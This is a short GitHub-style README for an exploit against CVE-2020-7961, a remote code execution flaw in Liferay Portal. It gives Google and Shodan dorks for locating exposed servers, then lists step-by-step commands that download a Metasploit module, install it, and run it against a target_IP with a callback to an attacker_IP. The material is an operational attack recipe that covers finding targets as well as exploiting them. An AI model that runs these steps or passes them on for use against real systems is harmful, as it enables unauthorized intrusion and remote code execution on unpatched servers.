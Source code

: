 # CVE-2020-7961

![](https://img.shields.io/static/v1?label=Product&message=Liferay&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=prior%20to%207.2.1%20CE%20GA2&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)

See more details [here](https://www.synacktiv.com/publications/how-to-exploit-liferay-cve-2020-7961-quick-journey-to-poc)
 - Google dork:
```
inurl:/api/jsonws
```
 - Shodan dork:
```
Powered+By+Liferay
```
 - [PublicWWW Link](https://publicwww.com/websites/Powered+By+Liferay/)

### Usage
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2020/Liferay_Portal_RCE/liferay_java_unmarshalling.rb
```
```
cp liferay_java_unmarshalling.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/liferay_java_unmarshalling.rb
```
```
exploit(multi/http/liferay_java_unmarshalling) > set rhosts target_IP
exploit(multi/http/liferay_java_unmarshalling) > set lhost attacker_IP
exploit(multi/http/liferay_java_unmarshalling) > run
```

